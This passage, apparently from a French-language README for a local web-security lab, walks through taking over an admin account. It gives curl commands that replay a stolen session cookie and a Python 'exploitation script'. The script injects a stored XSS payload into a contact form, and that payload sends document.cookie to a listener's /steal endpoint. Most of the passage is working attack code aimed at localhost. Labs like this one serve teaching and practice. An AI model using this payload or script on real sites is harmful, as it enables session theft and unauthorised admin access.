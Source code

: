 ## 🔐 Accès Administrateur

### Avec la Session Volée

1. **Récupérer le cookie de session** depuis les logs d'attaque
2. **Utiliser le cookie** pour accéder au tableau de bord admin :
```bash
curl -H "Cookie: session=COOKIE_VOLE" http://localhost:3206/admin
```

### Accès Direct (Alternative)

Si vous connaissez les credentials :
```bash
curl -X POST http://localhost:3206/admin-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"***"}'
```

## 🎯 Exploitation Complète

### Script d'Exploitation Automatisé

```python
import requests
import time

def exploit_xss():
    # Étape 1: Injecter le payload XSS
    payload = '''
    <script>
    fetch('http://localhost:8080/steal?cookie=' + document.cookie);
    </script>
    '''
    
    data = {
        "name": "Attacker",
        "email": "attacker@evil.com", 
        "subject": "Important",
        "message": payload
    }
    
    response = requests.post(
        "http://localhost:3206/submit-contact",
        json=data
    )
    
    print("✅ Payload XSS injecté")
    
    # Étape 2: Attendre que l'admin visite (bot automatique)
    print("⏳ Attente du déclenchement...")
    time.sleep(30)
    
    # Étape 3: Vérifier l'accès admin
    admin_response = requests.get("http://localhost:3206/admin")
    print("🎯 Accès admin:", "SUCCESS" if admin_response.status_code == 200 else "FAILED")

if __name__ == "__main__":
    exploit_xss()
```
